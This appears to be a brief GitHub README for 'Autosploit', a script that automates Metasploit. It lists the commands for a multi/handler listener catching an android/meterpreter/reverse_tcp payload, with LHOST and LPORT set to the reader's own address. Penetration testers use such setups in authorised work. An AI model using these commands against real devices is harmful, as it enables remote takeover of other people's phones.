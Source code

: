 # Autosploit

This is a script that allows you to automate Metasploit using simple process.....

## Changes Needed

You need to change the file for your work

First you need to change the First Line for your work. For example I have used:
```
use multi/handler
```

Change the payload. Here for example I have used: 
```
android/meterpreter/reverse_tcp
```
Then change LHOST to your IP by typing ``` ifconfig ``` or ```sudo ifconfig```.

```
set LHOST <Your IP>
```
Then add the PORT. You can give any PORT number
```
set LPORT <Your PORT>
```
And now I have written ``` exploit``` to exploit the payload.
